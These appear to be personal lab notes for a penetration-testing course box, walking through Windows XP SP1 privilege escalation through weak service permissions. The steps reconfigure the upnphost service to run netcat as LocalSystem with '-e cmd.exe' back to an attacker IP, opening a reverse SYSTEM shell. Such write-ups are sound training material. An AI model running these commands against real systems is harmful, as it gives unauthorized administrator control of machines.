Privilege Escalation

1. Follow the method for exploiting Win XP SP1 from [fuzzysecurity](https://www.fuzzysecurity.com/tutorials/16.html) and [sohvaxus](https://sohvaxus.github.io/content/winxp-sp1-privesc.html). Specifically for this box, I used sohvaxus.

2. Download Accesschk.exe and eula from here.
`https://xor.cat/assets/other/Accesschk.zip`
On attack machine, these files are located at `/home/kali/gitWorkspace/pwk/outputFiles/active_gathering/10.11.1.14/privesc/accesschk`

3. Transfer accesschk.exe and Eula.txt to the target via ftp. **Ensure you download in binary mode**


4. On the target, Go to the directory where it was loaded and then query vulnerable services we can exploit.
`accesschk.exe /accepteula -uwcqv "Authenticated Users" *`


5. View the SSDPSRV service
`accesschk.exe /accepteula -ucqv SSDPSRV`

6. View the upnup host
`accesschk.exe /accepteula -ucqv upnphost`

7. Check the parameters upnup. You'll see that it has a dependency on  SSDPSRV
`sc qc upnphost`
**Screenshot is missing**

8. Check the parameters for SSDPSRV. Notice that it is disabled.
`sc qc SSDPSRV`


9. Query status for SSDPSRV
`sc query SSDPSRV`


10. Attempt to start the SSDPSRV service
`net start SSDPSRV`


11. Set SSDPSRV to AUTOMATIC/ **Be sure to follow the syntax which shows that there is a single space between '=' and 'auto'**
`sc config SSDPSRV start= auto`

12. Double check that SSDPSRV is set to automatic
`sc qc SSDPSRV`


13. Try again to start SSDPSRV
`net start SSDPSRV`

14. Download netcat from here. I used the 1.12 version
`https://eternallybored.org/misc/netcat/`
On attack machine, it is located at: `/home/kali/gitWorkspace/pwk/outputFiles/active_gathering/10.11.1.14/privesc/netcat`


15. Upload nc.exe to your target via FTP. **Ensure it is in binary mode**


16. Verify the path where nc.exe is located on the target. In this case: `C:\Inetpub\nc.exe`


17. Set a new binary path for netcat
`sc config upnphost binpath= "C:\Inetpub\nc.exe -nv 192.168.119.214 6789 -e C:\WINDOWS\System32\cmd.exe"`


18. Set object and password
`sc config upnphost obj= ".\LocalSystem" password= ""`

19. Set a netcat listener on attack machine
`sudo nc -lvnp 6789`


20. Check again that everything is fine
`sc qc upnphost`

21. Run upnphost, you'll see that you have system on the netcat listener port 6789. You'll have 30 seconds to get the proof.txt
`net start upnphost`


22. To get a shell lasting more than 30 min, follow this. **This is still a TO-DO on this box!!**


